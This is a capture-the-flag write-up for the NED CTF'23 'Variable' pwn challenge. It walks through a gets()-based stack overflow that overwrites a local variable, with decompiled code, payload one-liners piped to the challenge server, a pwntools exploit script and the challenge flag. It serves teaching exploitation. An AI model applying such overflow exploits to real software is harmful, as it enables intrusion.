 ```yaml
---
title: NED CTF'23 - Pwn - Variable
date: '2023-07-03'
tags: ['pwn', 'nedctf', 'buffer-overflow', 'variable-overwrite']
draft: false
summary: Overwriting variable to get the flag.
---
```


## Challenge Description

Navigate the binary labyrinth and bend variables to your will.

Author: [Saad Akhtar](https://twitter.com/ssaadakhtarr)

```bash
nc 159.223.192.150 9003
```

![chal-info](/static/writeups/nedctf/pwn/var0.png)

## Solution

Downloading the `variable.zip`, we get the following files

![files](/static/writeups/nedctf/pwn/var1.png)

The `file` security checks on the binary are as follows

![file](/static/writeups/nedctf/pwn/var2.png)

Let's run the `variable` binary to check what it does

![run](/static/writeups/nedctf/pwn/var3.png)

Okay, let's disassemble and check the functions inside ghidra

![functions](/static/writeups/nedctf/pwn/var4.png)

We can see a function called `authenticator`, which seems to be the function that checks if we have the correct password. The disassembled function is as follows

```c

void authenticator(void) {
  char *pcVar1;
  char local_168 [256];
  char local_68 [16];
  char local_58 [64];
  FILE *local_18;
  int local_c;

  local_c = -0x11e2153;
  printf("\n\n\nEnter the username: ");
  gets(local_58);
  printf("\nHello %s!\n",local_58);
  printf("\nPlease enter the secret password: ");
  fgets(local_68,0x10,stdin);
  if (local_c == -0x350c454d) {
    local_18 = fopen("flag.txt","r");
    if (local_18 == (FILE *)0x0) {
      puts("\nError: could not open file");
    }
    else {
      printf("\nAccess Granted!\nHere\'s the flag: ");
      while( true ) {
        pcVar1 = fgets(local_168,0x100,local_18);
        if (pcVar1 == (char *)0x0) break;
        printf("%s",local_168);
      }
      fclose(local_18);
    }
  }
  else {
    printf("\nAccess Denied!");
  }
  return;
}
```

Now, inside ghidra, we'll press `l` to rename variables, let's rename the variables accordingly and then the function becomes

```c
void authenticator() {
  char *ret;
  char flagBuffer [256];
  char secretPass [16];
  char userBuffer [64];
  FILE *fd_flag;
  int toOverwrite;

  toOverwrite = L'\xfee1dead';
  printf("\n\n\nEnter the username: ");
  gets(userBuffer);
  printf("\nHello %s!\n",userBuffer);
  printf("\nPlease enter the secret password: ");
  fgets(secretPass,0x10,stdin);
  if (toOverwrite == L'\xcaf3bab3') {
    fd_flag = fopen("flag.txt","r");
    if (fd_flag == (FILE *)0x0) {
      puts("\nError: could not open file");
    }
    else {
      printf("\nAccess Granted!\nHere\'s the flag: ");
      while( true ) {
        ret = fgets(flagBuffer,0x100,fd_flag);
        if (ret == (char *)0x0) break;
        printf("%s",flagBuffer);
      }
      fclose(fd_flag);
    }
  }
  else {
    printf("\nAccess Denied!");
  }
  return;
}
```

Now, we can understand quite easily what the function is doing. and see that `gets` function to perform our buffer overflow on. Let's understand the flow of this function:

1. Asking for username (gets) [unsafe]
2. Asking for secret password (fgets) [safe]
3. Checking if `toOverwrite` variable is `0xcaf3bab3` [Hardcoded value is 0xfee1dead]

### Exploitation

So, in order to overwrite the `toOverwrite` variable, we need to overflow the `userBuffer` variable. We're dealing with an `x64` binary, and the buffer size is 64, in order to overflow the `toOverwrite` variable, we need to overflow the `userBuffer` variable and then the `toOverwrite` variable.

So, we need to do some basic maths. Firstly, the buffer is of 64 bytes. In order to overflow this, we need to add 8 bytes to it, i.e. 72 bytes. Now, in order to find the offset of the variable, let's set a breakpoint on `authenticator` function inside gdb and then run the binary

```bash
(gdb) b *authenticator
```

![breakpoint](/static/writeups/nedctf/pwn/var5.png)

Now, we can see that the data of `toOverwrite` is being stored [rbp-4]. So, in our 72 bytes, we need to add 4 more bytes, and then the 4 byte dword i.e. `0xcaf3bab3`. So, our payload will be

```bash
python -c "print('A'*72 + '\x90' * 4 + '\xb3\xba\xf3\xca')" | ./variable
```

![flag](/static/writeups/nedctf/pwn/var6.png)

Now, it's recommended that we add `NOPS` to avoid mistakenly messing up the stack. So, let's redirect this exact payload to our nc listener:

```bash
python -c "print('A'*72 + '\x90' * 4 + '\xb3\xba\xf3\xca')" | nc 159.223.192.150 9003
```

![flag](/static/writeups/nedctf/pwn/var7.png)

For some reason, it got stuck here, to fix this, i added a `newline ('\x0a')` to the payload, and it worked

```bash
python -c "print('A'*72 + '\x90' * 4 + '\xb3\xba\xf3\xca' + '\x0a')" | nc 159.223.192.150 9003
```

> NOTE: If someone can explain to me, in detail why we need \n, please do so on Discord (TheFlash2k). Also, why I think we need the newline is that the `fgets` function is waiting for a newline, and we're not providing it, so it's stuck there. I may be wrong, or may be right, but I'm not sure. I just added it there and the exploit worked.

![flag](/static/writeups/nedctf/pwn/var8.png)

```md
Flag: NCC{s3cr3t_ov3rr1d3n_pwn3d}
```

Now, the exploit.py for this is as follows:

```py:exploit.py
#!/usr/bin/env python3

from pwn import *
import sys
import re

_bin = "./variable"
elf = context.binary = ELF(_bin)

if len(sys.argv) == 2 and sys.argv[1].lower() == "remote":
	io = remote('159.223.192.150', 9003)
else:
	io = process(_bin)

io.recv()

payload = flat(
	[
		b"A" * 72,
		b"\x90" * 4,
		p32(0xcaf3bab3),
		b'\n' # can be 0x0a
	]
)

io.sendline(payload)
buf = io.recv().decode('latin-1')
print(buf)
```

![flag](/static/writeups/nedctf/pwn/var9.png)
